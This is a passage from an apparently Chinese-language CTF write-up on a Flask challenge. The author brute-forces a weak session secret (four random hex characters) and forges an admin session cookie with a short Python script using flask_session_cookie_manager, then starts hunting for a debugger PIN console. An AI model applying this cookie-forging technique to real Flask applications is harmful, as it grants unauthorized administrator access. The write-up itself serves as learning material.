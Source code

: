 由于index.js源码过长,故不粘出来力

但是分析这两段js代码之后，发现其好像确实仅仅是实现8701端口的备忘录上传显示，于是线索到这又断了

**而且我发现环境重启之后8701端口并没有重启，说明8701端口的信息大概率与问题无关了（哭）**

也就不需要分析这些js代码了...

**5.返璞归真，重新分析题目，毕竟肯定是个学习的过程**

提到了**flask框架，随机的session秘钥，路由和数据库处理**，所以应该是从这三方面入手

- 试试伪造session吧，虽然说是强且随机秘钥，但是随机也就随机了四位16进制，或许可以暴力破解？（）

而且我手上还有不知道做哪题搞的flask_session_cookie_manager,不妨试一试

**还真行！！！真激动啊！！！**（亚运会开幕式真好看！！！）

``` python
import os
import sys
sys.path.append(r'C:\Users\Jednersaous\Desktop\web-test\build\flasksessioncookiemanagermaster')
import flask_session_cookie_manager3

b="This-random-secretKey-you-can't-get"+os.urandom(2).hex()
#print(b)
strmatch="[Decoding error] Signature b'rc-OENTTYrGjc_xW9cx2f6K-vYU' does not match"
# for i in range(16**4):
#     c="This-random-secretKey-you-can't-get"+os.urandom(2).hex()
#     if c!=b:
#         n=flask_session_cookie_manager3.FSCM.decode('eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6ImplZCJ9.ZQ7ILA.rc-OENTTYrGjc_xW9cx2f6K-vYU',c)
#         if n!=strmatch:
#             print(n)
#             print(c)

a=flask_session_cookie_manager3.FSCM.decode('eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6ImplZCJ9.ZQ7ILA.rc-OENTTYrGjc_xW9cx2f6K-vYU',b)
#print(a)

truesecret="This-random-secretKey-you-can't-get62eb"
inject="{'power': 'guest', 'user': 'admin'}"
payload=flask_session_cookie_manager3.FSCM.encode(truesecret,inject)
print(payload)
```

WARNING:写的脚本文件得和flask_session_cookie_manager放在一个文件夹下，不然没法调用(而且还得改名)

小写了个py脚本，暴力破解了session秘钥之后，把user改成admin，看到了一些新的东西

但是我突然想到session随着admin改了之后应该也会改（？），所以其实难道随便一个session和admin传上去也行（？）

总之分析一下得到的新东西

![image-20230923201834532](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20230923201834532.png)

**6. 利用提示，pin码进入console**
提示说的十分清楚明白，但是从哪里进入，在哪里使用这个所谓的pin码呢
